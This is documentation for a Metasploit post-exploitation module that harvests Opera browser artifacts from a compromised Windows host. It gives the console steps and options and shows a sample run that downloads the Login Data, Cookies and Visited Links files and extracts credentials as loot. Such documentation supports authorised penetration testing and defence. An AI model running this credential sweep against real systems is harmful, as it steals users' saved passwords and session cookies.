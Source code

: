 ## Module Description

This post-exploitation module gathers artifacts found on Opera related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/opera
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/opera) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Opera's parent folder found
[*] Opera's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Login Data
[*] Opera Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513121928_default_192.168.56.106_operaLoginData_680711.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121928_default_192.168.56.106_EXTRACTIONSLogin_648131.bin
[*] Opera's parent folder found
[*] Opera's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Cookies
[*] Opera Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaCookies_000286.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121929_default_192.168.56.106_EXTRACTIONSCooki_563880.bin
[*] Opera's parent folder found
[*] Opera's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Visited Links
[*] Opera Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaVisitedLin_749388.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```